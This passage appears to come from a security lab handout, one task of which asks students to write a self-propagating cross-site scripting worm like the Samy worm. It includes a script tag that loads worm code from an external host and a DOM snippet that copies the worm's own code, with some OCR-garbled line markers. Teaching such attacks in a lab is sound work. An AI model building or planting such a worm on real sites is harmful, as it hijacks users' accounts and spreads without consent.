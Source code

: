 ### 3.7 Task 6: Writing a Self-Propagating XSS Worm

To become a real worm, the malicious JavaScript program should be able to propagate itself. Namely,
whenever some people view an infected profile, not only will their profiles be modified, the worm will also
be propagated to their profiles, further affecting others who view these newly infected profiles. This way,
the more people view the infected profiles, the faster the worm can propagate. This is exactly the same
mechanism used by the Samy Worm: within just 20 hours of its October 4, 2005 release, over one million
users were affected, making Samy one of the fastest spreading viruses of all time. The JavaScript code that
can achieve this is called a _self-propagating cross-site scripting worm_. In this task, you need to implement
such a worm, which not only modifies the victim’s profile and adds the user “Samy” as a friend, but also
add a copy of the worm itself to the victim’s profile, so the victim is turned into an attacker.
    
To achieve self-propagation, when the malicious JavaScript modifies the victim’s profile, it should copy
itself to the victim’s profile. There are several approaches to achieve this, and we will discuss two common
approaches.

**Link Approach:** If the worm is included using thesrcattribute in the _<script>_ tag, writing self-
propagating worms is much easier. We have discussed the _src_ attribute in Task 1, and an example is given
below. The worm can simply copy the following _<script>_ tag to the victim’s profile, essentially infecting
the profile with the same worm.
```
<script type="text/javascript" src="http://www.example.com/xss_worm.js">
</script>
```
**DOM Approach:** If the entire JavaScript program (i.e., the worm) is embedded in the infected profile, to
propagate the worm to another profile, the worm code can use DOM APIs to retrieve a copy of itself from
the web page. An example of using DOM APIs is given below. This code gets a copy of itself, and displays
it in an alert window:
```
<script id="worm">
    var headerTag = "<script id=\"worm\" type=\"text/javascript\">"; ¿
    var jsCode = document.getElementById("worm").innerHTML; ¡
    var tailTag = "</" + "script>"; ¬

    var wormCode = encodeURIComponent(headerTag + jsCode + tailTag); √

    alert(jsCode);
</script>
```
It should be noted that _innerHTML_ (line¡) only gives us the inside part of the code, not including the
surrounding _script_ tags. We just need to add the beginning tag _<script id="worm">_ (line¿) and
the ending tag _</script>_ (line¬) to form an identical copy of the malicious code.
    